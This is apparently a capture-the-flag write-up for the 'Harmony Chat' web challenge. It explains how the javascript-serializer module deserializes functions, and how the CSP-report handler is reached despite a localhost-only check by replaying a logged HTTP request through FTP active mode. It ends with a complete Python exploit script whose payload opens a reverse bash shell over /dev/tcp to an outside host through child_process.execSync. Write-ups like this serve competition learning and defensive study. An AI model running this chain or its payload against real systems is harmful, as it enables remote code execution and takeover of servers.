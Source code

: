 # Harmony Chat (web, 283p, 27 solves)

![main](./files/main.png)

Harmony Chat is Web Challenge implementing Chat application.

You can register/login user and inviting someone to chat room.

- [Source](./files/harmony.zip)



In utils.js, validateAndDecodeJSON calls fromJSON of `javascript-serializer` module.

`javascript-serializer` is supported to deserialize function similar with `node-serialize` known as one of vulnerable modules.

```js
const crypto = require("crypto")
const json = require("javascript-serializer")

const utils = {}

utils.validateAndDecodeJSON = (data, jsonSchema) => {
  const decoded = JSON.parse(data)

  const result = ajv.validate(jsonSchema, decoded)
  if (!result) {
    throw ajv.errorsText()
  }

  return json.fromJSON(decoded)
}
```

After deserializing input, the csp-report property of the result will be used to create report (which is string typed)

This means specific property of the report can be converted to string by calling their toString method.

```js
const handleReport = (req, res) => {
  let data = Buffer.alloc(0)

  req.on("data", chunk => {
    data = Buffer.concat([data, chunk])
  })

  req.on("end", () => {
    res.status(204).end()

    if (!isLocal(req)) {
      return
    }

    try {
      const report = utils.validateAndDecodeJSON(data, REPORT_SCHEMA)
      console.error(generateTextReport(report["csp-report"]))
    } catch (error) {
      console.warn(error)
      return
    }
  })
}

const generateTextReport = report => {
  let text = "\nContent Security Policy violation!\n"
  text += `Document URI: ${report["document-uri"]}\n`
  text += `Blocked URI : ${report["blocked-uri"]}\n`
  text += `Directive   : ${report["violated-directive"]}\n`
  text += `Full Policy : ${report["original-policy"]}\n`

  if (report["script-sample"]) {
    text += `Sample      : ${report["script-sample"]}\n`
  }

  let sourceInfo = ""
  if (report["source-file"]) {
    sourceInfo += report["source-file"]
  }

  if (report["line-number"]) {
    sourceInfo += `:${report["line-number"]}`
  }

  if (report["column-number"]) {
    sourceInfo += `:${report["column-number"]}`
  }

  if (sourceInfo.length > 0) {
    text += `Source      : ${sourceInfo}\n`
  }

  return text
}
```

from the [docs](https://github.com/wix-incubator/javascript-serializer), We could know `javascript-serializer` allows to construct object by setting `___js-to-json-class___` property.

So, below is actual input for executing script by `javascript-serializer`

```js
const data = `{"csp-report":{"blocked-uri":"","document-uri":"","effective-directive":"","original-policy":"","referrer":"","status-code":"","violated-directive":"","source-file":{"toString":{"___js-to-json-class___":"Function","json":"console.log(process)"}}}}`;

const report = utils.validateAndDecodeJSON(data, REPORT_SCHEMA)
console.error(generateTextReport(report["csp-report"]))
```

How to trigger, handleReport called when it received POST request for `/csp-report` route.

And their body will be given to argument of vulnerable point.

```js
const REPORT_URL = "/csp-report"

const ContentSecurityPolicy = (req, res, next) => {
  if (req.path === REPORT_URL &&
      req.method === "POST" &&
      req.headers["content-type"] === "application/csp-report") {
    handleReport(req, res)
    return
  }

  injectCSPHeaders(req, res)
  next()
}
```

but there's ip restriction for the handleReport function.

We should bypass this with ftp active mode.

```js
const isLocal = (req) => {
  const ip = req.connection.remoteAddress
  return ip === "127.0.0.1" || ip === "::1" || ip === "::ffff:127.0.0.1"
}
```

```python
from websocket import create_connection
import json, random
from pwn import *
import time

context.log_level = 'debug'

HOST = 'harmony-1.hackable.software'

def init():
    global channel_id, channel_id2, host_ws, user_id

    host_ws = create_connection(f'ws://{HOST}:3380/chat')

    host_ws.send('{"type":"register","displayName":"POST /csp-report?"}')
    res = json.loads(host_ws.recv())
    host_ws.recv()

    user_id = res['uid']
    print('[*] user id: ' + user_id)

    host_ws.send('{"type":"new-channel","name":"' + str(random.randint(10000, 99999)) + '"}')
    res = json.loads(host_ws.recv())
    
    channel_id = res['channels'][0]['chId']
    print('[*] channel id: ' + channel_id)

    payload = 'HTTP/1.1'
    host_ws.send('{"type":"message","chId":' + json.dumps(channel_id) + ',"msg":' + json.dumps(payload) + '}')

    host_ws.recv()

def save_msg(name, message):
    global channel_id, host_ws

    ws = create_connection(HOST)

    ws.send('{"type":"register","displayName":' + json.dumps(name) + '}')
    res = json.loads(ws.recv())
    ws.recv()

    user_id = res['uid']

    host_ws.send('{"type":"invite","chId":' + json.dumps(channel_id) + ',"uid":' + json.dumps(user_id) + '}')
    res = json.loads(host_ws.recv())

    ws.send('{"type":"message","chId":' + json.dumps(channel_id) + ',"msg":' + json.dumps(message) + '}')

    res = json.loads(ws.recv())

    ws.close()

# open channel for constructing log
init()

# writing HTTP header
save_msg('Content-Length', '345')
save_msg('Content-type', 'application/csp-report')
save_msg('Connection', 'close')

# message with no content adds new line
save_msg('RN', '')

save_msg('{"csp-report":{"blocked-uri"', """"","document-uri":"","effective-directive":"","original-policy":"","referrer":"","status-code":"","violated-directive":"","source-file":{"toString":{"___js-to-json-class___":"Function","json":"console.log(process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/4444 0>&1'`)+[])"}}}}""")

host_ws.close()

# ftp stage (bypassing host restriction)

p = remote(HOST, 3321)
p.sendline('user ' + user_id)
p.sendline('pass')

time.sleep(3)

p.sendline('PORT 127,0,0,1,13,52')
p.sendline('retr ' + channel_id)

p.interactive()
```

after writing valid http request to log,
We can transfer it to any host using ftp.